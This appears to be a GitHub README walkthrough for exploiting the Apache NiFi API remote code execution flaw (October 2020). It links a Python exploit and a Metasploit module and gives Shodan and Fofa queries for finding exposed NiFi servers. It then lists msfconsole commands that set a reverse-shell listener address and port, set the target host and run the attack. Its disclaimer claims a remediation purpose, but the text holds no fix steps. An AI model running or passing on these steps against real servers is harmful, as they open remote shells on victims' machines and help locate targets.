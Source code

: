 # Apache NiFi Processor RCE (Oct 3 2020)
Apache NiFi is a software project to automate the flow of data between software systems.  
This module uses the NiFi API to create an ExecuteProcess processor that will execute OS commands. The API must be unsecured (or credentials provided) and the ExecuteProcess processor must be available. An ExecuteProcessor processor is created then is configured with the payload and started. The processor is then stopped and deleted.

API Executing Process: https://nifi.apache.org/docs/nifi-docs/components/org.apache.nifi/nifi-standard-nar/1.12.1/org.apache.nifi.processors.standard.ExecuteProcess/  

Vulnerable architectures: x86, x64  
Vulnerable platforms: Linux, OSX, Unix, Windows  
Vulnerable protocols: http, https  

**Please be aware that this exploit leaves signs of a compromise in a log file (Example: SQL injection data found in HTTP log) and modifies some configuration setting on the target machine, this is not a guide on how to exploit others, this is a guide on how to reproduce the vulnerability and how to fix it.**  

Python Raw Exploit: https://raw.githubusercontent.com/imjdl/Apache-NiFi-Api-RCE/master/exp.py  

MetaSploit Exploit: https://dl.packetstormsecurity.net/2011-exploits/apache_nifi_processor_rce.rb.txt  
MetaSploit Linux Default Payload: **cmd/unix/reverse_bash**  
MetaSploit Windows Default Payload: **cmd/windows/reverse_powershell**  

Shodan Query: `title:"NiFi"`  
Fofa Query: `title=="NiFi"`  

# Using apache_nifi_processor_rce's Exploit
<pre>msf6 > use exploit/multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash</pre>
# Local IP for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LHOST 192.168.60.7
LHOST => 192.168.60.7</pre>
# Local Port for Reverse Shell Connection
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set LPORT 4444
LPORT => 4444</pre>
# Remote IP for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RHOST 192.168.60.57
RHOST => 192.168.60.57</pre>
# Remote Port for Exploit Execution
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > set RPORT 8080
RPORT => 8080</pre>
# Checking Current Exploit Options
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > show options</pre>
![msf1](https://user-images.githubusercontent.com/94451745/149518743-e2ad0802-819a-4037-9798-8422f0c236c4.png)
# Running Exploit
<pre>msf6 exploit(multi/http/apache_nifi_processor_rce) > run</pre>
![msf2](https://user-images.githubusercontent.com/94451745/149520071-97c27099-82df-493b-9ead-a5a96afcc29b.png)
